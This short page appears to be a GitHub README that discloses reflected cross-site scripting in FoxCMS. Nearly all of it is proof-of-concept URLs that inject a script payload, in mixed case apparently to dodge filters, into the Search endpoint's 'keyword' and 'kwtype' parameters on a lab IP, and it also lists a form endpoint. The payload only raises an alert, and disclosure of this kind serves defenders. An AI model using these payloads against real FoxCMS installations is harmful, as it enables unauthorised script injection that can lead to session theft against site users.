


# foxcms-xss
poc:  
http://192.168.128.128/Search?fields=title&kwtype=1&keyword=%22%3E%3CsCrIpT%3Ealert(1)%3C/sCrIpT%3E  

http://192.168.128.128/Search?fields=title&kwtype=%22%3E%3CsCrIpT%3Ealert(1)%3C/sCrIpT%3E&keyword=  
http://192.168.128.128/plus/Diyform/receive  
